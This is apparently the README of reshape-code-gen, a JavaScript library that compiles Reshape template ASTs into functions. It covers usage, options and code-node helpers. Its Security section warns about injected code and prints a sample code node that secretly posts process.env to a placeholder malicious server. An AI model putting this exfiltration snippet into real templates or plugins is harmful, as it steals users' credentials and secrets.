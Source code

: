 # Reshape Code Generator

[![Greenkeeper badge](https://badges.greenkeeper.io/calebeby/code-gen-sugarml.svg)](https://greenkeeper.io/)

[![npm](https://img.shields.io/npm/v/reshape-code-gen.svg?style=flat-square)](https://npmjs.com/package/reshape-code-gen)
[![tests](https://img.shields.io/travis/reshape/code-gen.svg?style=flat-square)](https://travis-ci.org/reshape/code-gen?branch=master)
[![dependencies](https://img.shields.io/david/reshape/code-gen.svg?style=flat-square)](https://david-dm.org/reshape/code-gen)
[![coverage](https://img.shields.io/coveralls/reshape/code-gen.svg?style=flat-square)](https://coveralls.io/r/reshape/code-gen?branch=master)

Convert a Reshape AST into a Javascript function

> **Note:** This project is in early development, and versioning is a little different. [Read this](http://markup.im/#q4_cRZ1Q) for more details.

### Installation

`npm install reshape-code-gen -S`

> **Note:** This project is compatible with node v6+ only

### Usage

Usage is very straightforward. Just require the library and pass it a reshape AST, and it will return a function as a string. When you call the function, it will return the resulting html as a string.

```js
const generate = require('reshape-code-gen')

const tpl = generate([
  { type: 'string', content: 'hello ', line: 1, col: 1 },
  { type: 'code', value: 'planet', line: 1, col: 7 }
], {/* options */})

tpl({ planet: 'world' }) // 'hello world'
```

### Options

| Name | Description | Default |
| ---- | ----------- | ------- |
| **selfClosing** | style for handling self-closing tags. can be `slash` (`<br />`), `tag` (`<br></br>`), or `close` (`<br>`) | `close` |
| **runtimeName** | custom name for the runtime object | `__runtime` |
| **returnString** | gives back a string instead of a function | `false` |
| **scopedLocals** | use `locals.foo` instead of `foo` in code nodes. this will speed up compile time, but be less pretty | `false`

### Code Block Helpers

Within the `content` of a `code` node, there are two special helpers that can be used:

#### `__nodes`

A helper that can be used inside of a `code` node's content in order to inject an already-generated AST. For example:

```js
{
  type: 'code',
  content: 'foo === "bar" ? __nodes[0] : __nodes[1]',
  nodes: [
    { type: 'text', content: 'truth' },
    { type: 'text', content: 'lies' }
  ]
}
```

The `__nodes` helper is an array, and you can use the `nodes` property to hold on to values. Values can be a single node or a full tree, they will be evaluated, and the result will be substituted in where the `__nodes` marker is.

####  `__runtime`

This helper can be used to access any functions on the runtime object. It will work under the same name whether the user has changed the runtime name via the options or not. For example:

```js
{
  type: 'code',
  content: '__runtime.escape(foo)'
}
```

### Security

Please note that this library produces a function as its output that could be influenced by user input and will most likely run inside your application environment. While the default output is evaluated in a [sandbox](https://nodejs.org/api/vm.html), when the function is executed it will have full access to any part of your code's environment, as all functions do.

Chances are that any `code` nodes in your templates are your own code, probably for evaluating a local variable. However, if any type of outside user input is accepted and evaluated as a `code` node, or if a malicious plugin is being used, you have a serious security vulnerability on your hands. This is especially the case when using the `outputString` option and executing templates client-side. Keep in mind that it is also possible for plugins to contain malicious code, so be sure that you trust and have evaluated the source of any plugins you are using.

Here's an example of how a `code` node could be used to compromise your secure information:

```js
{
  type: 'code',
  content: `
    (function () {
      const http = require(\'http\')
      const req = http.request({
        hostname: 'http://malicious-server.com',
        method: 'POST',
        headers: { 'Content-Type': 'application/json' }
      })
      req.write(JSON.stringify(process.env))
      req.end()
      return foo
    })()
  `
}
```

In this example, the code node will return `foo` from your local variables as if all is well, but in the background will send the contents of your environment, which often includes private API keys and such, to a malicious server. This example would work in node, but it would also be simple to add a version that would work in the browser, or even both, with an environment check. And this is a very tame example as well, arbitrarily injected code could easily be used to get or delete your database's contents, make financial transactions, conduct actions as a logged-in user, etc.

While a situation like this is unlikely to happen, and all core plugins protect against it as much as possible, it is still something to keep in mind. _Especially_ if there is any user input inserted into your templates that could be potentially evaluated as code and not as a string.

### License & Contributing

- Details on the license [can be found here](LICENSE.md)
- Details on running tests and contributing [can be found here](contributing.md)

